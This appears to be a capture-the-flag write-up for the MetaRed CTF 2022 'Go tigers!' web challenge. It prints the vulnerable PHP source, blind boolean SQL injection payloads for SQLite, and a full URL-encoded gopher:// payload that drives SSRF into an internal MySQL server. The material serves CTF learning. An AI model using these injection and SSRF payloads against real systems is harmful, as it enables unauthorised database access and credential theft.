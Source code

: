 # Writeup-Go-Tigers-
### MetaRed CTF Argentina 2022

## Go tigers!
 <img src=img/19.png class="center">

When visiting the website, we can see two input fields. The first one require an id.If the id is valid it displays the id and the username else it displays nothing.The second field was an input that read the content of a file using the function file_get_contents().

 <img src=img/1.png class="center">

We tried to trigger an error using a quote and fortuantely we got an error from the database.The error reveals that a function called supersafeWaf() was filtering our input.
<img src=img/2.png class="center">

(I discovered later that this was useless since my friend LAM managed to read the admin password from ../tiger.db using the second input , but hey i enjoyed tortuaring myself to manually perform a blind boolean based sql injection and that was fun!)

 <img src=img/18.png class="center">

Looking at the code of "index.php", we find out that ther suspersafeWaf() function actually filters some statements like 'select' , 'order' .. 
```
<?php
ini_set('display_errors', 'on');

class TigerClass {
    public function superSafeWAF($sql) {
        $pdo = new SQLite3('../tiger.db', SQLITE3_OPEN_READONLY);
        $safesql = implode (['select',  'union', 'order', 'by', 'from', 'group', 'insert'], '|');
        $sql = preg_replace ('/' . $safesql . '/i', '', $sql);
        $query = 'SELECT id, user FROM tigers WHERE id=' . $sql . ' LIMIT 1';
        $tigers = $pdo->query($query);
        $sol = $tigers->fetchArray(SQLITE3_ASSOC);
        if ($sol) {
            return $sol;
        }
        return false;
        }
    }
```

We tried out some SQLi payloads to see that this was a blind boolean based sql injection , with an sqlite3 database.
Our payload was **1 AND CASE WHEN substr(user,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/5.png class="center">

Since the username having an id 1 was 'admin' we didn't get an error and the data corresponding was displayed. 
Our final payload was **1 AND CASE WHEN substr(pass,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/20.png class="center">

--> username : admin 
--> password : This_password_is_very_safe!

We discovered that there is an admin page (admin.php) that require a username and a password.So paasing those creds to the form we got to the page :

 <img src=img/9.png class="center">

This time one input that gets an url was present and after reading the source code of the admin.php (using the second input field in the index.php) we decided to look for an SSRF: 

```
function str_contains($haystack, $needle) {
					return $needle !== '' && mb_strpos($haystack, $needle) !== false;
				}
				$not_protocol_smuggling = !str_contains(strtolower($_POST['post_url']),"file");

				if (isset($_SESSION['auth']) && isset($_POST['post_check']) && $not_protocol_smuggling) { exec(escapeshellcmd("timeout 5 curl " . escapeshellarg($_POST['post_url']) . " --output -"), $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
			<br>
			<!--Acordarse de Fixear el BD user juanperez  -->
		<h4>DB Status Check</h4>
			<div id="login">
				<form class="form-signin" action="<?php basename($_SERVER['PHP_SELF']); ?>" method="post" style="border:0px;">
				<input class="btn  btn-primary" type="submit" name='db_check' value = "Check" style='margin-top:10px;'/>
				</form>
				<?php if (isset($_SESSION['auth']) && isset($_POST['db_check'])) { exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
```


**What is SSRF?**
Server-Side Request Forgery (SSRF) refers to an attack wherein an attacker is able to send a crafted request from a vulnerable web application. SSRF is usually used to target internal systems behind firewalls that are normally inaccessible to an attacker from the external network.

All protocols other than file:// was valid since a delay of 5s took place. Reading the source code of the 'admin.php' once again a comment cought our attention **Acordarse de Fixear el BD user juanperez** which means 'Remember to Fix the BD user juanperez'
ehhhmmm ... So maybe there is another database running on internal!
our hypothese was confirmed when we saw the line of code **{ exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out);**. That means that the othe button was checking the whole time if this database is online or not. To communicate with this databse we decided to use the protocol **Gopher**.

**What is Gopher?**
Gopher is an application-layer protocol that provides the ability to extract and view Web documents stored on remote Web servers. Gopher was conceived in 1991 as one of the Internet’s first data/file access protocols to run on top of a TCP/IP network. It was developed at the University of Minnesota and is named after the school’s mascot.
We can use gopher:// to communicate with the MySQL database.

Basic agreement format: URL:gopher ://<host>:<port>/<gopher-path>_ Followed by TCP data flow
Tring the payload : **gopher://mysqlsafedb.com:3306/_Hello**
 
 <img src=img/11.png class="center">

Using gopherus, we were able to generate the following sql query : SELECT schema_name FROM information_schema.schemata
Our final payload was : **gopher://mysqlsafedb.com:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%34%00%00%00%03%73%65%6c%65%63%74%20%73%63%68%65%6d%61%5f%6e%61%6d%65%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%73%63%68%65%6d%61%74%61%01%00%00%00%01**
And the flag was the name of a database other than 'information_schema.schemata'

 <img src=img/16.png class="center">


 ## FLAG

 <img src=img/17.png class="center">

 ## Some Ressources:

 - https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html
 - https://github.com/tarunkant/Gopherus



